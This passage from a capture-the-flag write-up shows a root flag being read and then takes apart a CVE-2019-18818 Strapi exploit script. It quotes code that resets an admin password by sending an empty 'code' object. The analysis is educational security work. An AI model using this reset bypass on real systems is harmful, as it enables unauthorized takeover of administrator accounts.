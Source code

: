 

And grab the flag:



    root@horizontall:~# cat root.txt
    6bf8cc06************************



## Beyond Root

### CVE-2019-18818

#### Exploit Script

I wanted to better understand this exploit and how it used the input
email address (or didn't). On first looking at the help, it looks like I
need to know the admin email:



    oxdf@hacky$ python3 cve-2019-18818.py 
    Usage: cve-2019-18818.py <admin_email> <url> <new_password>



As I discovered above, putting anything into that field seemed to work.
Looking most closely at the script, it makes three requests. The first
is `/admin/strapiVersion` to see if it's a vulnerable version.

The second is to `/admin/plugins/user-permissions/auth/reset-password`:



    #Request password reset
    print("[*] Sending password reset request...")
    reset_request={"email":email, "url":"{}/admin/plugins/users-permissions/auth/reset-password".format(url)}
    s.post("{}/".format(url), json=reset_request)



This is where the email is used. I noted above that just putting random
junk in there works.

The third request is to `/admin/auth/reset-password`, and the key thing
is to note that the `code` parameter is an empty dictionary:



    #Reset password to
    print("[*] Setting new password...")
    exploit={"code":{}, "password":new_password, "passwordConfirmation":new_password}
    r=s.post("{}/admin/auth/reset-password".format(url), json=exploit



I'll add a this line to the top of the exploit to send all the requests
through Burp:


